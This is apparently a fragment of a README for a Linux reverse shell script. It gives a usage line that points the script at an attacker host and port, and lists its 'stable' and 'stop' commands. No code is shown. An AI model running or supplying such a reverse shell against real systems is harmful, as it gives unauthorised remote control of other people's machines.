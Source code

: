 <h5>Linux Simple</h5>

Simple shell, usage:

*python3 simple_linux_rev_shell.py --host <attacker host> --port <attacker port>*

You can also comment args parser and input ip:port in the code.

**Commands:**
- **stable:** try to establish connection (You can not use Ctrl+C, TABs and etc)
- **stop:** break the connection
- Linux standard commands
